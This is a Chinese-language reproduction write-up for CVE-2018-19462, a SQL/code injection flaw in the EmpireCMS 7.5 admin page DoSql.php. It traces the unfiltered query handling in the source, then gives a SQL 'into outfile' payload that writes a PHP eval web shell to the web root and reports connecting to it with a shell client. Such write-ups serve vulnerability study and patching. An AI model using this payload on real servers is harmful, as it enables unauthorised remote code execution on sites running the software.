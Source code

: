 # CVE-2018-19462 EmpireCMS 7.5 admindbDoSql.php代码注入漏洞

## 一、漏洞简介

EmpireCMS7.5及之前版本中的admindbDoSql.php文件存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中,网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段,修改网络系统或组件的预期的执行控制流。

## 二、漏洞影响

EmpireCMS 7.5

## 三、复现过程

漏洞出现的页面如下

![](images/2020_07_08/15942239705633.jpg)


分析源码定位漏洞出现的位置在/e/admin/db/DoSql.php,浏览代码,对sqltext使用RepSqlTbpre函数进行处理

![](images/2020_07_08/15942239781335.jpg)


跟进RepSqlTbpre函数,发现仅仅对表的前缀做替换,没有做其他任何处理

![](images/2020_07_08/15942239851830.jpg)


继续浏览代码,发现对$query使用DoRunQuery函数进行处理

![](images/2020_07_08/15942239924591.jpg)


跟进DoRunQuery函数,可以看到对$sql参数只做了去除空格、以”;”分隔然后遍历,并你没有做别的限制和过滤,导致可以执行恶意的sql语句

![](images/2020_07_08/15942240001954.jpg)


登录后台,点击如下,输入一段写shell的payload,payload内容如下:

```sql
select '<?php @eval($_POST[1])?>' into outfile 'C:/phpStudy/WWW/empirecms/shell.php'

```

![](images/2020_07_08/15942240109286.jpg)


点击”执行SQL”,提示错误,是由于mysql安全限制的原因

![](images/2020_07_08/15942240193751.jpg)


修改mysql的配置文件, 在[mysqld] 下添加条目: secure_file_priv =,保存之后,然后重启mysql

![](images/2020_07_08/15942240269562.jpg)


再次执行SQL语句,可以看到成功执行SQL语句

![](images/2020_07_08/15942240342416.jpg)


查看是否成功上传shell

![](images/2020_07_08/15942240409086.jpg)


菜刀连接,成功getshell

![](images/2020_07_08/15942240480765.jpg)


## 参考链接

> https://www.shuzhiduo.com/A/E35pxYYE5v/

